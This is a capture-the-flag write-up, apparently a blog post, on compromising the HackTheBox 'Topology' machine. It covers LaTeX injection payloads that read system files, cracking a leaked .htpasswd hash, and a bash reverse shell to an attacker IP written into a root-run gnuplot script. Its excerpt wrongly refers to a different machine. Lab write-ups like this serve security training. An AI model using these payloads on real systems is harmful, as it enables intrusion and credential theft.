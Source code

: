 ```yaml
---
layout: single
title: Topology - HackTheBox (OSCP STYLE)
excerpt: "During the process of resolving Alfred, I faced several challenges, such as identifying default credentials and using tools like Juicy Potato. To overcome these obstacles, I employed a methodology based on the OSCP."
date: 2024-02-22
classes: wide
header:
  teaser: /assets/images/topology/portada.png
  teaser_home_page: true
categories:
  - HackTheBox
  - infosec
tags:
  - HackTheBox
  - Linux
  - htpasswd
  - Latex Injection
  - Bad Sudo Permissions
---
```


## Enumeration


We'll be facing this exercise with the OSCP methodology

The first step is perform a nmap scan in the target machine, but before that we'll ping the victim machine in order to discover if we have vibility and know the OS that is running

After pinging the machine found that it responds with a ttl of 63, that means that we are handling a linux machine.

We start our nmap scan

```
sudo nmap -sS -p- --min-rate 5000 --open -T5 -Pn -n 10.10.11.217 -oG allPorts
```

Found that the machine has the open ports 80 and 22

![1]

After that we decided to perform a nmap scan in the 2 open ports to find the versions that this services are running 

```
nmap -sVC -p22,80 10.10.11.217 --script=http-enum -oN targeted
```

![2]

Interensing data that we found here is that the web server is running an Apache 2.4.41

Regarding http-enum script found /demo/ directory

The main page overview is showing an university page 

![3]

The things that we found in this main page, are the following:

```
Valid user: lklein
Valid redirect that we should apply directory listing to reach this page
"latex.topology.htb"
```

![4]

## Initial access

On first instance it seems that this machine should be vulnerable to a latex injection, regarding the directory /demo that we found enumerating the site, we were unable to reach this page.

I decided to try some basic latex injections to find out how the webpage responds

```
# Read file
\input{/etc/passwd}
$\input{/etc/passwd}$
$$\input{/etc/passwd}$$

\include{example} # Read example.tex
$\include{example}$
$$\include{example}$$

\lstinputlisting{/etc/passwd}
$\lstinputlisting{/etc/passwd}$
$$\lstinputlisting{/etc/passwd}$$


# Write file
\newwrite\outfile
$\newwrite\outfile$
$$\newwrite\outfile$$

\openout\outfile=cmd.tex
$\openout\outfile=cmd.tex$
$$\openout\outfile=cmd.tex$$

\write\outfile{Hello-World}
$\write\outfile{Hello-World}$
$$\write\outfile{Hello-World}$$

```

But the page responds saying that we are using illegal commands if we try to read content from this page

![5]

We've checked for a suposed WAF making syntax filter but nothing found

![6]

I decided to try all the payloads and found that 

```
$\lstinputlisting{/etc/passwd}$
```

Allow us to read the /etc/passwd content

![7]

```
Valid users that we found:

vdaisley
www-data
root
```

We also tried more injections, but we weren't able to read other files, after enumerate the machine with wfuzz discover dev subdomain

Since we have read permissions we could try to read htpasswd 

.htpasswd is a flat-file used to store usernames and password for basic authentication on an Apache HTTP Server. The name of the file is given in the .htaccess configuration, and can be anything although ".htpasswd" is the canonical name. The file name starts with a dot, because most Unix-like operating systems consider any file that begins with dot to be hidden. This file is often maintained with the shell command "htpasswd" which can add, delete, and update users, and will properly encode the password for use.


```
$\lstinputlisting{/var/www/dev/.htpasswd}$
```

![8]

```
vdaisley:$apr1$1ONUB/S2$58eeNVirnRDB5zAIbIxTY0
```

We have to decrypt this hash with john the ripper tool and get the user password

![9]

```
Valid user and password:
vdaisley:calculus20
```

And gain access as vdaisley user

![10]


## Privilege escalation


Doing a manual enumeration found that in /opt folder we haver gnuplot 


gnuplot is a command-line program that can generate two- and three-dimensional plots of functions, data, and data fits. The program runs on all major computers and operating systems.It is a program with a fairly long history, dating back to 1986. Despite its name, this software is not part of the GNU project.

Executing the app found that the version that this application is running is the 5.2 version

![11]

We have write and execution permissions in gnuplot folder, the way that we are going to use this is because gnuplot has 2 files (owned by root inside this directory) hello and test

If we redirect a reverse shell inside one of those files we will get root acces to the machine

```
echo "system(\"bash -c 'bash -i >& /dev/tcp/10.10.14.228/4444' 0>&1' \")" > hello.plt
```

![12]



[1]:/assets/images/topology/1.png
[2]:/assets/images/topology/2.png
[3]:/assets/images/topology/3.png
[4]:/assets/images/topology/4.png
[5]:/assets/images/topology/5.png
[6]:/assets/images/topology/6.png
[7]:/assets/images/topology/7.png
[8]:/assets/images/topology/8.png
[9]:/assets/images/topology/9.png
[10]:/assets/images/topology/10.png
[11]:/assets/images/topology/11.png
[12]:/assets/images/topology/12.png
